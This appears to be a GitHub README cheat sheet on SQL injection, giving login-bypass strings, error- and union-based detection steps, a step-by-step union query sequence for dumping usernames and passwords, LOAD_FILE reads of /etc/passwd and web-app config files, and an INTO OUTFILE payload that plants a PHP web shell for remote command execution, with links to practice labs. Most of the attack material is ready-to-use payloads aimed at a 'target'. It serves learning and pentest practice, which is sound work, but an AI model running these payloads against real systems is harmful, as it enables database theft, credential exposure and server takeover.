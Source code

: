 # SQL Injection
![sql-injection](https://user-images.githubusercontent.com/79256105/172219613-c1e688dc-d2fc-4a1c-9e56-35cb868ae5f2.png)

# What is SQL Injection?
SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to affect the execution of predefined SQL commands.
# Types of SQL Injection
![sql](https://user-images.githubusercontent.com/79256105/175160165-af1189b5-f22c-41fa-8d8e-7e4e1d14da57.png)

## Authentication Bypass(Subverting Query Logic)
Subverting Query Login used to bypass authenticatio of login page . In this technique, hacker used true statement **' or 1=1 / ' or '1'='1'-- -** to bypass application query or user credentials matching.
Some True Statement Payload :
                   
                   ' or '1' = '1
                   ' or '1' = '1’
                   ' or '1' = '1 -- -
                   ' or '1' = '1 #                         
##### 👁️‍🗨️ For More Payload check payload all things github repo https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
## In-Band SQL Injection
In simple cases, the output of both the intended and the new query may be printed directly on the front end, and we can directly read it. This is known as In-band SQL injection, and it has two types: **Union Based and Error Based.**

##### Error Based :
                           Get the PHP or SQL errors in the front-end
##### Union Based:
                          Get Fixed Column number and Uses Union query to get database information

## How to Indentify Error Based SQL Injection
#### Step1:
           Find out injection parameter using fuzzing tools or manually
#### Step2:
           Use Given below payoad

         Payload 	URL Encoded
              ' 	%27
              " 	%22
              # 	%23
              ; 	%3B
              ) 	%29
If we get sql error , there has error based SQL injection and then, Use SQL Map for Automatic SQL Injection Pen-Testing / Manually Testing
##### 👁️‍🗨️ For More Payload check payload all things github repo https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
## How to identify Union Base SQL Injection
#### Step1:
          find out actual column number using order by  / order by -- - operation
#### Step2:
            use actual column number with union operation
            example: ‘ union select 1,2,3-- - 
#### Step3:
           check which column number show in your target website
#### Step4:
           use union base payload in perfect column number to exploit database

## Method for dumping data from database using Uninon SQL Injection

##### Schema,Schemata check

      mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

#### Step 1: Schema/Database check

     ' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -

#### Step 2: Tables check

      ' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -

Here , dev is database name which will replace to your target database name

#### Step3: Columns check

      ' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -

Here , credentials is table name whick will replace to your target table name

#### Step4: Dum Data from table:

      ' UNION select 1, username, password, 4 from dev.credentials-- -

Where username and password are column name , dev is database name , credentials is table name

## Read Data/Sensitive files using Union SQL Injection
     SELECT USER()
     SELECT CURRENT_USER()
     SELECT user from mysql.user

#### Step 1:Privilege Check

      SELECT super_priv FROM mysql.user
      ' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
      ' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
      ' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
#### Step 2:Load File
Now that we know we have enough privileges to read local system files, let us do that using the LOAD_FILE() function. The LOAD_FILE() function can be used in MariaDB / MySQL to read data from files. The function takes in just one argument, which is the file name. The following query is an example of how to read the /etc/passwd file:

      SELECT LOAD_FILE('/etc/passwd');
      
      Example:
      ' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -

#### Another Example

We know that the current page is search.php. The default Apache webroot is /var/www/html. Let us try reading the source code of the file at /var/www/html/search.php.

      ' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
      ' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
### Write Files Using Union SQL Injection or RCE Using SQL Injection
Example

      ' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
Web Shell Upload:

      ' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
      
Basic PHP Web Shell:

      <?php system($_REQUEST['cmd']); ?>
      
OR 
      
      <?php system($_GET['cmd']); ?>
 
### For RCE , Call Uploaded Web shell 

Example :
          
          url/upload_file.php?parameter=commnad

          http://cyberteach360/shell.php?cmd=id
          

## Practicing and Learning Resources:

#### Try Hack Me :

      https://tryhackme.com/room/sqlinjectionlm
      https://tryhackme.com/room/sqhell

#### Hack The Box Academy :

      https://academy.hackthebox.com/module/33/section/177

#### Port Swigger:         
     https://portswigger.net/web-security/sql-injection
     
